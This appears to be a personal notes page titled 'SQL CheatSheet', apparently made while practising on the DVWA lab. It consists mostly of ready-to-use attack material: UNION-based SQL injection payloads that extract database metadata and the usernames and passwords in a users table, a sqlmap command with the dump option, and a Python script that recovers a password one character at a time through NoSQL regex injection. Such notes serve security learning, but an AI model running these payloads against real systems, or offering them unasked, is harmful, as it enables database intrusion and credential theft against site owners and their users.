 ```yaml
---
title: SQL CheatSheet
date: 2021-09-12
categories:
  - Notes
tags:
  - Notes
  - SQL
excerpt_separator: <!--more-->
---
```



<style>
  pre {
     overflow-x: auto;
     white-space: pre-wrap;
     white-space: -moz-pre-wrap;
     white-space: -pre-wrap;
     white-space: -o-pre-wrap;
     word-wrap: break-word;
  }
</style>


<p><img src="/assets/images/dvwa/SQLi/sql.png" alt="" /></p>

<h1>SQL Injection</h1>
<p>CheatSheet</p>
<p>
Display Database Version<br>
%' or 0=0 union select null, version() #<br>
<br>
Display Database User<br>
%' or 0=0 union select null, user() #<br>
<br>
Display Database Name<br>
%' or 0=0 union select null, database() #<br>
<br>
Display all tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables #<br>
<br>
Display all the user tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#<br>
<br>
Display all the columns fields in the information_schema user table<br>
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #<br>
<br>
Display all the columns field contents in the information_schema user table<br>
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #<br>
</p>

<code>sqlmap http://[IP]/admin?user=3 --cookie='token=[Enter Cookie] --technique=U --delay=2 -dump</code>

<h2>Nosql</h2>

<h4>Shitscript</h4>


<pre><code>
import requests
bruten = '1234567890abcdef-'
xx=0
x = bruten[xx]
keylist = ""
keystr = keylist + x
#URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
r = requests.get(URL)
s = (len(r.content))

while True:
  try:
    for i in range(0, 17):    
      x = bruten[xx]
      keystr = keylist + x
      #URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
      URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
      print(URL)
      print(keystr)
      #print(keylist)
      r = requests.get(URL)
      s = (len(r.content))
      #print(s)
      if s == 1614:
        keystr = keylist + x
        keystr = keystr
        keylist = keylist + x
        #print(keylist)
        xx=0
        continue
  
      else:
        #keylist = ""
        keystr = keylist + x
        keystr = keystr
        xx+=1
        continue
    except:
      print("crackarooniedddddd")
      print('password is ' + keystr[:-1])
      break  </code></pre>